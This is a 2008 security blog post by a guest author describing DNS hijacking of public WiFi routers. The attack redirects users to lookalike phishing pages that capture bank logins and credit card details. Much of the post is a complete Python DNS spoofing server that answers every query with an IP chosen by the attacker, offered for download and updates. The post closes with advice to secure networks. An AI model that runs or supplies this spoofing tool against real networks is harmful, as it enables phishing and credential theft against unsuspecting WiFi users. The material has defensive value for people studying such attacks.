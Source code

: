 ```yaml
---
title: WiFi Ownage
author: petko-d-petkov
guest: sam-aldis
date: Thu, 07 Feb 2008 10:59:13 GMT
template: this/views/post.jade
---
```


> This month GNUCITIZEN's guest blogger is Sam Aldis, the founder of [darkstar.me.uk](http://darkstar.me.uk/). Sam started as a blackhat/script kiddie but soon he has learned a life lesson when he broke into a big football(soccer) leagues site. Sam did not serve any sentence but he had to pay a hefty fine. This is how he turned into a whitehat and now he is in the process of setting up his own security company. These are his words:

I have recently been doing research into WiFi connections without wepkeys and where the attacker is able to change the primary DNS server on the router. This is actually a very serious problem as the attacker is able to get your credit card details or any other information you input without you even knowing.

Imagine you are at a hotel with your laptop. You connect to the WiFi that they provide and type in `www.google.com`, which brings up google's front page. The address bar says http://www.google.com and the page looks genuine so it is.. isn't it? However, attackers may could have got access to the router and changed the primary DNS server through many of the available methods in the wild, like [UPnP hacking](/blog/hacking-with-upnp-universal-plug-and-play), etc.

Theoretically, the attacker could use any IP address to pull the trick, as long as a DNS server was running behind the UDP port 53. But it would be more beneficial if the attacker is under control of this DNS server, so he/she is able to show the user what ever they want them to see. For example, the user could type in their bank's website address and end up at a phishing page but they wouldn't know because they would see their banks address in the title bar and the page could be made to look exactly the same (and auto-update itself through some PHP magic). When the user logs in, a fake DNS server will respond which will make the user go to the wrong IP address. As you can see this is a big threat that will affect anyone who hasn't secured their network.

I have created a python script which can act as a temporary DNS server which will direct all requests to a certain IP (keep checking [http://darkstar.me.uk](http://darkstar.me.uk) for updates). Here is the script that complies to the scenarios described above:

```html
# DNS Injection Server
# Created By fazed
# DNSQuery class adapted from Francisco Santos's
# code. why re-invent the wheel?

from socket import *

class DNSQuery:
 def __init__(self, data):
   self.data=data
   self.domain=''

   tipo = (ord(data[2]) >> 3) & 15
   if tipo == 0:
     ini=12
     lon=ord(data[ini])
     while lon != 0:
       self.domain+=data[ini+1:ini+lon+1]+'.'
       ini+=lon+1
       lon=ord(data[ini])

 def respond(self, ip):
   packet=''
   if self.domain:
     packet+=self.data[:2] + "\x81\x80"
     packet+=self.data[4:6] + self.data[4:6] + '\x00\x00\x00\x00'
     packet+=self.data[12:]
     packet+='\xc0\x0c'
     packet+='\x00\x01\x00\x01\x00\x00\x00\x3c\x00\x04'
     packet+=str.join('',map(lambda x: chr(int(x)), ip.split('.')))
   return packet

print ":: DNS Injection Server Started ::"
sh = socket(AF_INET, SOCK_DGRAM)
print "Socket Handle Created.."
sh.bind(('',53))
print "Socket Handle Bound To UDP Port 53"
ip = raw_input("IP to inject: ")
try:
   while 1:
       data, addr = sh.recvfrom(1024)
       print "DNS Request From:", addr[0]
       p = DNSQuery(data)
       print "Sending IP address:", ip
       sh.sendto(p.respond(ip),addr)
       print "Response Sent.."
except KeyboardInterrupt:
   print ":: DNS Injection Server Stoped ::"
   sh.close()
```

The bottom line is: secure your networks and don't trust public WiFi access points.
